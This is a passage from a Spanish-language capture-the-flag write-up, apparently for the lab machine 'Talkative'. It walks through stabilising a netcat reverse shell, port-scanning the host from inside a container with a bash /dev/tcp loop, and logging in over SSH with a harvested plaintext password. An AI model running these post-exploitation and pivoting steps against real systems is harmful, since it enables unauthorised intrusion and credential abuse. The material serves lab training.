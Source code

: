 Como siempre cualquier conexión con netcat, no estamos maniobrando sobre una TTY asi que hay que aplicarle un tratamiento:

```ruby
> www-data@adeece77920e:/var/www/talkative.htb/bolt/public$ script /dev/null -c bash
 <talkative.htb/bolt/public$ script /dev/null -c bash      
 Script started, output log file is '/dev/null'.
```
Hacemos *ctrl+z* para poner la conexión en segundo plano
```bash
❯ stty raw -echo; fg
[1]  + continued  sudo nc -nlvp 6062
                                    reset xterm
```
Para que se apliquen los cambios reiniciamos la consola

y todavía no estamos en la máquina real, seguimos en contenedores.

Despues de un buen rato revisando todo el contenedor, vemos que no es posible escalar privilegio en él pero si tenemos conectividad con la máquina real aqui

Como el contenedor no tiene el comando *'ping'* se puede usar el comando *'echo'*, y en base al código de estado final se puede saber si un puerto esta abierto o cerrado.

Podemos crear un pequeño script para ver que puerto esta abierto:
```ScanPort.sh
#!/bin/bash

for puerto in $(seq 1 65535) ;do
	bash -c "echo > /dev/tcp/10.10.11.155/$puerto" 2>/dev/null && echo "[+] Esta abierto el puerto $puerto"
done
```
Le damos permiso de ejecucion; 
```ruby
> www-data@adeece77920e:/tmp$ chmod +x ScanPort.sh
```
Y lo ejecutamos 
```ruby
> www-data@adeece77920e:/tmp$ ./ScanPort.sh
 [+] Esta abierto el puerto 22
 [+] Esta abierto el puerto 80
 [+] Esta abierto el puerto 8080
 [+] Esta abierto el puerto 8081
 [+] Esta abierto el puerto 8082
```

Veremos que el puerto 22 de la máquina real que esta abierdo desde este contenedor, y tiene el comando *'ssh'*, asi que podemos intertar conectarnos por ssh proporcionando las credenciales de los usuario con sus contraseñas

```ruby
www-data@e4803a9fde4b:/tmp$ ssh saul@10.10.11.155
The authenticity of host '10.10.11.155 (10.10.11.155)' can't be established.
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
saul@10.10.11.155's password: jeO09ufhWD<s 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 07 Sep 2022 04:34:14 AM UTC

  System load:                      0.1
  Usage of /:                       73.4% of 8.80GB
```